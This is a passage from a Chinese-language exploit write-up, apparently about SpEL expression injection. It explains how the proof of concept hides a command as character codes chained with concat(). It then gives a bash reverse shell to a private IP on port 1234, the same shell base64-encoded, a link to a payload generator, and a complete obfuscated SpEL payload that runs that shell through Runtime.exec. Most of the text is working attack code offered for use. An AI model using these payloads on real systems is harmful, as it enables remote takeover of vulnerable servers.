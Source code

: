 
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083029.png)image-20210829191932279

可以看出该poc对输入的命令进行了变形，将命令的每个字符串转化为ASCII码配合tostring()方法并且用concat拼接传入exec执行。

反弹shell：

对于poc需要先进行base64编码(java反弹shell都需要先编码，不然不会成功，原因貌似是runtime不支持管道符,重定向，空格，管道符都有可能造成错误，具体可以参考这篇文章：https://blog.th3wind.xyz/posts/238052750.html）

在线生成有效载荷的网站：http://www.jackson-t.ca/runtime-exec-payloads.html

    
    
    bash -i >& /dev/tcp/192.168.173.133/1234 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083030.png)image-20210829191700097

生成poc

    
    
    ${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}  
      